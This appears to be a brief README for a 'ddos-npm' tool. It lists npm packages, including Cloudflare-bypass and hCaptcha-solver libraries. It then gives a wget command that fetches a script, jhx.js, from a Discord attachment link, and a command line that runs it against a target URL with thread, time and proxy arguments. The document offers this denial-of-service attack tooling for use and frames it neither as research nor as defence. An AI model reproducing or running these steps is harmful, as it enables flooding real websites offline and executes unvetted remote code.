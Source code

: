 # ddos-npm
npm i requests npm i https-proxy-agent npm i crypto-random-string npm i events npm i fs npm i net npm i cloudscraper npm i request npm i hcaptcha-solver npm i randomstring npm i cluster npm i cloudflare-bypasser npm i axios npm i fake-useragent wget https://cdn.discordapp.com/attachments/978942856670609420/1011906674132529202/jhx.js node jhx.js url 9999 5 proxy 
